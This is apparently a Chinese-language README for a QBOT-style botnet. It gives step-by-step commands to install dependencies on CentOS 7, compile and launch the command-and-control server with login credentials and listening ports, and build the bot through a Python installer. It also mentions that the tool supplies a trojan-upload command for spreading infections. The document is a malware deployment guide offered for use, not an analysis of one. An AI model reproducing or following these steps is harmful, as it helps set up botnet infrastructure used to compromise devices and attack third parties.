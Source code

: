 # 非常哈基米的僵尸网络(QBOT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
curl -o /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听僵尸端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 编译僵尸
```python
python bot_install.py
```
`完事就是这么简单`  
`传马命令他会给出的`  
`后面僵尸自己弄`  
